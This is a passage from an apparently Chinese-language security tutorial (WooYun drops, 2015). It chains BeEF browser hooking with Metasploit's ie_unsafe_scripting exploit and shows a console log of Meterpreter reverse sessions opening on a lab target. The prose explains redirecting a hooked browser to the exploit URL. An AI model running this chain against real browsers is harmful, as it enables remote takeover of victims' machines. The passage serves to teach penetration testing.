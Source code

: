 ```
[*] Reloading module...
[*] Exploit running as background job.

msf exploit(ie_unsafe_scripting) > [*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Sending stage (972288 bytes) to 192.168.1.134
[*] Meterpreter session 1 opened (192.168.1.163:4446 -> 192.168.1.134:63098) at 2015-08-09 19:49:09 +0800
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Sending stage (972288 bytes) to 192.168.1.134
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] Meterpreter session 2 opened (192.168.1.163:4446 -> 192.168.1.134:63099) at 2015-08-09 19:49:37 +0800
Interrupt: use the 'exit' command to quit
msf exploit(ie_unsafe_scripting) > set payload windows/messagebox
payload => windows/messagebox
msf exploit(ie_unsafe_scripting) > rerun
[*] Stopping existing job...

[*] Server stopped.
[*] Reloading module...
[*] Exploit running as background job.
msf exploit(ie_unsafe_scripting) > 
[*] Using URL: http://192.168.1.163:8080/a
[*] Server started.
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript
[*] 192.168.1.134ie_unsafe_scripting - Request received for /a
[*] 192.168.1.134ie_unsafe_scripting - Sending exploit html/javascript

```

为了节省空间，上面演示的命令中我把我敲错的命令都自己删掉了 ：）

首先你在Metasploit里面要开启一个Browser Exploit的module，可能为了方便你喜欢手动设置uri为/a，payload可以是reverse shell，这里为了演示用的是MessageBox弹窗

然后在beEF里面让目标浏览器跳转至你的Browser Exploit的uri中，如图：

[![](http://static.wooyun.org//drops/20150811/2015081103412480714.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/2222.png)

之后目标浏览器就会访问我们设置好的Metasploit Browser Exploit页面，触发漏洞：

[![](http://static.wooyun.org//drops/20150811/2015081103412439194.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/hellomsf.png)

0x05 Browser Exploit组合原理科普
=====
